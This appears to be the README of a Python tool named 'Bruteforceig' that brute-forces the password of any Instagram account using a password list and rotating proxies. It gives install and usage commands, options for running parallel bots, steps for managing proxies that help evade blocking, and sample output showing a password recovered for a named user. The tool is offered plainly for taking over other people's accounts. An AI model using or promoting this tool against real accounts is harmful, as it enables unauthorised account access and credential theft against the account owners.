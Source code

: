# Bruteforceig
This program will brute force any Instagram account you send it its way given a list of proxies.











NOTICE
It motivates me to keep updating this program.


Requirements
Python v3.9
proxy list
Install Dependencies
Install Pipenv
pip install pipenv
Create environment
Make sure you have Python 3.9 installed

pipenv --python 3.9
Install Requirements
pipenv install
Help
usage: instagram.py [-h] [-u USERNAME] [-p PASSLIST] [-px PROXYLIST] [--prune PRUNE] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --username USERNAME
                        email or username
  -p PASSLIST, --passlist PASSLIST
                        password list
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy list
  --prune PRUNE         prune the database
  --stats               get statistics of the proxies
  -nc, --no-color       disable colors
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
Proxies
The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.

Upload
Upload a list of proxies into the program. The proxy file must have a format of ip:port

proxies_list.txt

3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
To upload a list of proxies a similar syntax must be followed.

python instagram.py -px <path to proxy list>
Stats
This gives an insight into the health of the proxies in the database.

python instagram.py --stats
Prune
This allows the able to get rid of proxies with a score below a given score.
It is recommended that you run the --stats and prune the database of proxies
who have a proxy score below Q1.

python instagram.py --prune 0.05
Pruning is not a requirement because the
the system will automatically learn which proxies perform poorly and stop using them.

Usage
python instagram.py -u <username> -p <passlist>
Run
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
Stop
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
